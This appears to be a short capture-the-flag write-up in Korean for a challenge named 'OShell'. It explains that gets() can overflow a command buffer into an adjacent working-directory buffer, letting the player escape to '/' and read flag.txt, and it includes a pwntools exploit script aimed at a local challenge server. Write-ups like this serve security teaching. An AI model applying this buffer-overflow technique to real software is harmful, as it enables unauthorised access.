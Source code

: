 # OShell

# Usage

# Concept

- BOF

# Writeup

## 취약점
상위 경로로 이동이 불가능한 쉘이 주어지고, /flag.txt 를 읽는 문제이다. \
커맨드 버퍼와 cwd 경로를 저장하는 버퍼가 붙어있고, gets 함수를 이용하여 입력을 받기 때문에 cwd 버퍼를 덮어써서 최상위 경로인 / 로 이동한 후 cat flag.txt로 플래그를 읽을 수 있다. 

 ## Exploit 
 ```py
from pwn import *
p = remote('localhost', 15252)

def exploit():
    cmd = "cat flag.txt"
    padding_size = 128 - len(cmd)
    new_cwd = "/"
    payload = cmd + "A" * padding_size + new_cwd
    return payload

if __name__ == "__main__":
    p.sendline(exploit())
    p.sendline(b"cat flag.txt")
    p.interactive()
 ```